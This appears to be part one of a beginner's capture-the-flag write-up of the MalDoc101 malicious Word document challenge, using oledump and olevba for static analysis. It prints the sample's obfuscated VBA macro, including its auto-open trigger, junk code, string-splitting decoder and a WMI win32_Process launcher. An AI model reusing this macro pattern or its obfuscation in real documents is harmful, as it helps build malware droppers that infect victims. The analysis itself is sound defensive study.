


This is part 1 out of 2 of my writeup for the Maldoc101 challenge made by Josh Stroschein (@jstrosch) and is currently playable at Cyberdefenders.Org. I've done some maldoc analysis before but this is the first time I'm writing about my approach.
There is also an already existing writeup about this challenge from the creator himself. You should check that out if you want a more detailed and focused writeup. This writeup is more from the perspective of someone relatively new to malware analysis. There's a lot more exploration and trial-and-error which, I hope, might give the reader a different view in how this kind of problem is approached.
The challenge
Name
MalDoc101 - Malicious Document
Description
It is common for threat actors to utilize living off the land (LOTL) techniques, such as the execution of PowerShell to further their attacks and transition from macro code. This challenge is intended to show how you can often times perform quick analysis to extract important IOCs. The focus of this exercise is on static techniques for analysis.
- REMnux Virtual Machine (remnux.org)
- Terminal/Command prompt w/ Python installed
- Oledump
- Text editor
The easy questions
The first question seems very easy. The suggested tools section above also gives us an idea how to approach this.
What streams contain macros in this document? (comma-separated, ascending).
oledump.py is a tool made by Didier Stevens that allows the analysis of data streams found in OLE files such as MS Office documetns. Running the command below would show us which streams have macros in it. These are denoted with the character M.
$ oledump.py sample.bin
1: 114 '\x01CompObj'
2: 4096 '\x05DocumentSummaryInformation'
3: 4096 '\x05SummaryInformation'
4: 7119 '1Table'
5: 101483 'Data'
6: 581 'Macros/PROJECT'
7: 119 'Macros/PROJECTwm'
8: 12997 'Macros/VBA/_VBA_PROJECT'
9: 2112 'Macros/VBA/__SRP_0'
10: 190 'Macros/VBA/__SRP_1'
11: 532 'Macros/VBA/__SRP_2'
12: 156 'Macros/VBA/__SRP_3'
13: M 1367 'Macros/VBA/diakzouxchouz'
14: 908 'Macros/VBA/dir'
15: M 5705 'Macros/VBA/govwiahtoozfaid'
16: m 1187 'Macros/VBA/roubhaol'
17: 97 'Macros/roubhaol/\x01CompObj'
...
I later noticed that there is an upper-case and lower-case M. I learned that the upper-case M denotes a macro with a code. The lower-case denotes a user form. This is a distinction that will be important later in this challenge.
What command-line argument with Oledump do you use to view the raw content of a stream? (Do not include the leading dash)
The next question is another easy one which ran easily be solved through oledump.py's --help parameter.
$ oledump.py --help
Usage: oledump.py [options] [file]
Analyze OLE files (Compound Binary Files)
Options:
--version show program's version number and exit
-h, --help show this help message and exit
-m, --man Print manual
-s SELECT, --select=SELECT
select item nr for dumping (a for all)
-d, --dump perform dump
-x, --hexdump perform hex dump
-a, --asciidump perform ascii dump
-A, --asciidumprle perform ascii dump with RLE
-S, --strings perform strings dump
-T, --headtail do head & tail
-v, --vbadecompress VBA decompression
...
The answer to question number two is easy to spot.
What event is used to begin the execution of the macros?
I used a different tool for this particular question mostly because I knew that it already shows the information I need to answer the question. The tool is called olevba which is part of the oletools package of Python tools. Olevba is used for extracting and analyzing VBA macro source code for MS Office documents.
$ olevba sample.bin
+----------+--------------------+---------------------------------------------+
|Type |Keyword |Description |
+----------+--------------------+---------------------------------------------+
|AutoExec |Document_open |Runs when the Word or Publisher document is |
| | |opened |
|Suspicious|Create |May execute file or a system command through |
| | |WMI |
|Suspicious|showwindow |May hide the application |
|Suspicious|CreateObject |May create an OLE object |
...
Onto the main event
What malware family was this maldoc attempting to drop?
I figured that the way for me to determine the answer for the question above is to start investigating the macro codes included in the document.
I knew from the previous question that the entry point to begin the execution of the macros is with the function Document_open(). The next step is to look for this entry point and go through the code to understand what the macro is doing.
To view the contents of a stream, I used the command below:
$ oledump.py sample.bin -s 13 -v
Attribute VB_Name = "diakzouxchouz"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
boaxvoebxiotqueb
End Sub
In the above output, I saw that Document_open() contains a single line of code which is a call to function boaxvoebxiotqueb'. This function is included in stream 15 which can be viewed with the command:
$ oledump.py sample.bin -s 13 -v
Attribute VB_Name = "govwiahtoozfaid"
Function boaxvoebxiotqueb()
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
Dim c7�ATOQe2�j As Integer
c7�ATOQe2�j = 6
Do While c7�ATOQe2�j < 6 + 2
c7�ATOQe2�j = c7�ATOQe2�j + 5: DoEvents
Loop
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
...
The above output contains more lines of what looks like gibberish code. Upon further inspection I realized that it's actually obfuscated. I can see common coding patterns which tells me that I could make sense of the code if I step through it and organize it so it is easy to understand.
The first line of the boaxvoebxiotqueb shows:
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
What's roubhaol? Since this is the first line in the function, I know that it is not a locally defined variable. It must be declared somplace else.
After looking around I learned that roubhaol is a the name of the user form at stream 16.
16: m 1187 'Macros/VBA/roubhaol'
So the next step is figuring out what roubhaol.Zoom's value is. This value is not set anywhere in any of the macros by code. This means that the value is set in the form itself. To confirm, I opened up the Word document, pressed Alt+F11 to open up the Visual Basic editor and then opened the roubhaol form. At the bottom we see that the value of Zoom is set to 100.

This means that by simulating the first line of code again we find that the variable gooykadheoj gets the character value of s.
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
gooykadheoj = Chr(100 + Int(5 * 3))
gooykadheoj = Chr(115)
gooykadheoj = Chr(115) # character "s"
I then proceeded to go through the next set of lines.
Dim c7�ATOQe2�j As Integer
c7�ATOQe2�j = 6
Do While c7�ATOQe2�j < 6 + 2
c7�ATOQe2�j = c7�ATOQe2�j + 5: DoEvents
Loop
This one is easier to simulate. c7�ATOQe2�j is assigend 6. And then there's a loop that adds 5 that eventually results to the value of 16.
But wait, something is fishy here. The variable c7�ATOQe2�j is not found anywhere else after the block of code above. This tells us that this is just junk code that does not really do anything aside from waste an analyst's time! Sneaky sneaky.
To save me the time I proceeded to remove all junk code. I did this by going through each variables and seeing if they are used somewhere useful. If not, then they are safe to remove.
Attribute VB_Name = "govwiahtoozfaid"
Function boaxvoebxiotqueb()
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
deulsaocthuul = juuvzouchmiopxeox(haothkoebtheil)
Set tiajriokchaoy = CreateObject(deulsaocthuul)
deaknaugthein = roubhaol.kaizseah.ControlTipText
giakfeiw = deulsaocthuul + gooykadheoj + roubhaol.paerwagyouqumeid.ControlTipText + deaknaugthein
queegthaen = giakfeiw + roubhaol.joefwoefcheaw
Set deavjoajsear = luumlaud(queegthaen)
xve = Array _
("1234444123", tiajriokchaoy. _
Create(geulgelquuuj, kaenhaig, deavjoajsear), "9938723")
End Function
Function juuvzouchmiopxeox(yiajthoavheiw)
geutyoeytiestheug = yiajthoavheiw
feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")
jaquhoiqu = csqw + Join(feaxgeip, eihnx)
juuvzouchmiopxeox = jaquhoiqu
End Function
Function geulgelquuuj()
sjiqw = roubhaol.gaoddaicsauktheb.Pages(10 / 10).ControlTipText
geulgelquuuj = juuvzouchmiopxeox(sjiqw)
End Function
Function luumlaud(zeolkaepxoag)
Set luumlaud = CreateObject(zeolkaepxoag)
Dim vPu As String
vPu = Replace$("BenqV1�igVwifwdQq", "BenqV1�i", "on5�")
luumlaud _
. _
showwindow = (mujgoiy + jioyseertioch) + (neivberziok + xuajroegquoudcaij)
End Function
As you can see above, the code is shorter. It's also a little easier to understand. Only a little though, we still need to step through the code carefully to have a better grasp of what it is doing.
Let's take on the next line:
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
If we look at the string carefully we would notice that a set of strings is concatenated with two variables. These variables are gooykadheoj and roubhaol.joefwoefcheaw. We already know the value of gooykadheoj. So what's the value of roubhaol.joefwoefcheaw?
I got this value by going back to Visual Basic Editor and selelecting joefwoefcheaw. The value we need is listed under Text.

Substituting the values s and P I got the following:
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fqP2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
It still doesn't clear up the gibberish, but at least it's now one big string. This same string is then passed as a parameter to function juuvzouchmiopxeox.
deulsaocthuul = juuvzouchmiopxeox(haothkoebtheil)
Let's look at the code inside juuvzouchmiopxeox.
Function juuvzouchmiopxeox(yiajthoavheiw)
geutyoeytiestheug = yiajthoavheiw
feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")
jaquhoiqu = csqw + Join(feaxgeip, eihnx)
juuvzouchmiopxeox = jaquhoiqu
End Function
Following the code we could see that the passed string is splitted using the call to the function Split with the substring 2342772g3&*gs7712ffvs626fq. This simply means that the substring is removed from the input string. The result of Split is then joined into one string using Join. There are the variables csqw and eihnx, they don't alter the string as these variables are empty.
At the end of this function the value of the passed string is now:
Aha! Something that is not gibberish for a change!
Going back to the caller function, the result of juuvzouchmiopxeox is saved to deulsaocthuul.
deulsaocthuul = juuvzouchmiopxeox(haothkoebtheil)
Set tiajriokchaoy = CreateObject(deulsaocthuul)
After that an object is created out of deaulsaocthuul, which we know contains winmgmts:win32_Process.
Looking at the microsoft docs I find out that The Win32_Process WMI class represents a process on an operating system.. Interesting.
Taking a step back
At this point there are already a number of questions that we could answer based on what we've done so far. Some are not yet answerable at the moment, however, so nothing left to do but to push forward. But that will be for the next part of this two part series.
Until then, I'm taking a step back as I marvel at my progress. It wouldn't take long until all the pieces would fall into place.


{kind=link}